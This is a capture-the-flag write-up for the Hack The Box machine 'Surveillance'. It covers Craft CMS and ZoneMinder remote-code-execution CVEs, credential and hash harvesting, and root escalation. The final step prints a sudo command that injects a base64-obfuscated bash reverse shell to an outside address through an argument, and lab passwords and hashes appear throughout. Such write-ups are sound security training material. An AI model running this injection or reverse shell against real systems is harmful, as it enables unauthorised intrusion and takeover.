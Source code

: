 ```yaml
---
layout: default_1
title: "Surveillance - HTB"
date: 2024-04-20
tags: writeup hackthebox surveillance
---
```


# HTB Surveillance Write Up
![HTB Surveillance](/assets/2024-04-20-writeups-surveillance-htb/machine_info.png "HTB Surveillance")


## Introduction
Surveillance provider company with focus com home security.

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>
<div markdown="1">
~~~
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
~~~
</div>

</details>


## Investigation
The http server redirects to a vhost `surveillance.htb`.  

The main website is static, and it was created with `Craft CMS`
![Main Website](/assets/2024-04-20-writeups-surveillance-htb/main_website.png "Main Website")
![Craft CMS](/assets/2024-04-20-writeups-surveillance-htb/craft_cms.png "Craft CMS")

The CMS version in hyperlinked in the website `https://github.com/craftcms/cms/tree/4.4.14`.  
This version is vulnerable to a RCE vulnerability with a public exploit - [CVE-2023-41892][cve-2023-41892]

### User www-data
Running the exploit return a shell with `www-data` user
```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Manually enumerating the server, the following information was obtained
- Mariadb runnning on port 3306
- Two users with shell: matthew and zoneminder
- CraftCMS database credentials on .env file
   - user: craftuser
   - pass: CraftCMSPassword2023!
- Backup folder with a database dump
   - /var/www/html/craft/storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip

The current CMS database only had one user with a high iteration on the hash. This make it hard to crack, executed hashcat anyways.
`admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe`

Meanwhile, searching the backup for more information. The backup stored the admin pass with a weak hash.
`admin@surveillance.htb | 39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec`
Easily cracked to `starcraft122490`

### User matthew
Checking for password reuse and logged as matthew.
```
$ id
uid=1000(matthew) gid=1000(matthew) groups=1000(matthew)
```

No sudoers entry for this user. Moving on to run linpeas on the system.
Linpeas found another credential, this time for Zoneminder database on /usr/share/zoneminder/www/api/app/Config/database.php
- user: zmuser
- pass: ZoneMinderPassword2023

Search for more password hashes in the database and found another uncracked hash
`admin | $2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd.`

Moving on to zoneminder service. The service description is
`A full-featured, open source, state-of-the-art video surveillance software system.`
Again, vulnerable to Unauthenticated RCE [CVE-2023-26035][cve-2023-26035].

### User zoneminder
Moved to the other user on the box, zoneminder
```
$ id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
```

Verifying sudores:
```
$ sudo -l
...
(ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

/user/bin/zm\*.pl is a suite of tools for the zoneminder service.
One way to exploit this suite is by abusing the zmupdate.pl tool, as shown in [this blog][zm-privesc].
Reverse shell example:
```
$ sudo /usr/bin/zmupdate.pl --version 1 --user='$(echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC81NTU1IDA+JjEK | base64 -d | bash)'
```

```
# whoami
root
```


[cve-2023-41892]: <https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226> "cve-2023-41892"
[cve-2023-26035]: <https://github.com/rvizx/CVE-2023-26035> "cve-2023-26035"
[zm-privesc]: <https://vk9-sec.com/privilege-escalation-zoneminder-scripts-command-injection-local/> "ZoneMinder PrivEsc"
